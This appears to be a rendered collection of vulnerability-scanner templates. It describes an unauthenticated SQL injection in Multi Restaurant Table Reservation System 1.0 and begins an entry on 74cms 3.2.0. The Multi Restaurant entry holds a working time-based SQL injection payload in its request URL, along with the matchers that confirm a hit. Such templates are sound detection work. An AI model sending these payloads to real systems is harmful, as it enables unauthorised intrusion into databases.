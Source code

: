 ### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- words
    1. [project-discovery]
- part - body

---
# Multi Restaurant Table Reservation System 1.0 - SQL Injection
## Description
- The file view-chair-list.php in Multi Restaurant Table Reservation System 1.0 does not perform input validation on the table_id parameter which allows unauthenticated SQL Injection. An attacker can send malicious input in the GET request to /dashboard/view-chair-list.php?table_id= to trigger the vulnerability.

- severity - critical
- tags - cve2020,tablereservation,sqli,unauth,edb,cve
## Requests
- Method - GET
### URL
- {{BaseURL}}/dashboard/view-chair-list.php?table_id='+AND+(SELECT+1+FROM+(SELECT(SLEEP(6)))a)--+-
### Matchers

**Type - dsl**
- dsl
    1. duration>=6

**Type - word**
- part - body
- words
    1. Restaurent Tables
    2. Chair List
- condition - and

**Type - status**
- status
    1. 200

---
# 74cms - ajax_street.php 'x' SQL Injection
## Description
- SQL Injection in 74cms 3.2.0 via the x parameter to plus/ajax_street.php.
